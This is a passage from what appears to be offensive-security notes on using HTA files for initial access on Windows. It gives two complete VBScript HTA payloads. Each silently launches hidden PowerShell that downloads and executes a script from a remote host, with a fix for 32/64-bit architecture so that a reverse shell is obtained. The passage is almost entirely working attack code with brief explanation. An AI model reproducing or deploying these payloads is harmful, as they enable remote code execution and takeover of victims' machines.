 2. By default if we use **powershell.exe** instead of giving the full path its not going to laucnh. This is because we have a **64bit** powershell payload but **.hta** uses **32 bit mstha.exe**. However, we can fix it by specifiying the fullpath with **sysnative**
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.exec "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
      ' This will fail -> shell.exec "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
    End Function

    Pwn
  </script>
</html>
```
#### .hta file execution (requres Internet Explorer) 04 - Get poweshell reverse shell after checking the desired architecture
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>
  
  <script language="VBScript">
    Function Pwn()
  Set shell = CreateObject("wscript.Shell")
  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  Else
    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  End If
    End Function
    Pwn
  </script>
</html>

```
